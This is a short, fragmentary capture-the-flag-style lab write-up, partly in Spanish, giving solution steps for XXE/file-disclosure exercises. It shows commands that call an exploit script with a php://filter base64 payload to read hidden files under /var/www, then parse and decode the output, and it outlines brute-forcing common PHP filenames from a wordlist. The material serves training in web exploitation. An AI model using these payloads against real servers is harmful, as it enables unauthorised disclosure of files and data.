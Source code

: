 ```bash
[Steps 1|2|3] | base64 -d > wohoo.png

OR

[Steps 1|2|3] | base64 -D > wohoo.png
```

* Abra el archivo.

Testing command:

```bash
./exploit.sh php://filter/convert.base64-encode/resource=/var/www/4/.letmepass \
| awk 'match($0, /<b>XXEME (.*)<\\\/b>/, m) { print m[1] }' \
| sed 's/\\\//\//g' \
| base64 -d > wohoo.png

open wohoo.png
```

### Solutions - Lab #5

En una carpeta llena de archivos, hay una especial...:

_Wheres el archivo oculto?_

Pasos de explotación

La solución dentro de basexml.php.

```bash
Part 1

- Download the base64 encoded the content of .letmepass.
- Extract the content from the result.
- Remove the JSON escaping characters.
- Base64 decode and store result within a file.
```

Part 2

```bash
- Download a list of common PHP file names; this is a good resource: Filenames_PHP_Common.wordlist @ (http://blog.thireus.com/web-common-directories-and-filenames-word-lists-collection)
- Automate the retrieving process:
- Similar to Part 1
- Parse result and show the good file that contains the tag .
```

Testing command:

Part 1

Extraer instrucciones de .letmepass:

```bash
./exploit.sh /var/www/5/.letmepass
```
